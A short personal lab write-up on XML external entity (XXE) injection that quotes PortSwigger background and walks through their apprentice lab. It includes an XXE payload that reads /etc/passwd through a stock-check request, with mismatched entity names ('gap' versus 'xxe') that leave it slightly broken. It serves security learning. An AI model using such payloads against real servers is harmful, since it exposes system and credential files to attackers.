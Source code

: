 ```yaml
---
title: "XML external entity injection XXE"
date: 2025-05-16T16:06:04+01:00
draft: false
tags: ["Security", "XXE", "web", "Portswigger"]
categories: ["web"]
---
```


XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
-Portswigger- https://portswigger.net/web-security/xxe

Background 

XML, Extensible Markup Langauge is  is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. Earlier in the web's history, XML was in vogue as a data transport format (the "X" in "AJAX" stands for "XML"). But its popularity has now declined in favor of the JSON format.
-Portswigger- https://portswigger.net/web-security/xxe/xml-entities


Code Academy, introduction to XML
https://www.youtube.com/watch?v=O7fmNwbtCjo

Data flow from Server to client and client to server via JSON and XML

**Portswigger XXE Lab: Apprentice**

Sign in and start the lab

![[PEN-200/XXE Portswigger/1.png]]

Start Caido and look for the post request once you use the "checkstock" button on the website.

![[2a.png]]

Create a system call:
```
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY gap SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>
```

then replace the productID with your call:
```&gap```

![[PEN-200/XXE Portswigger/2.png]]

![[PEN-200/XXE Portswigger/3.png]]

Yay!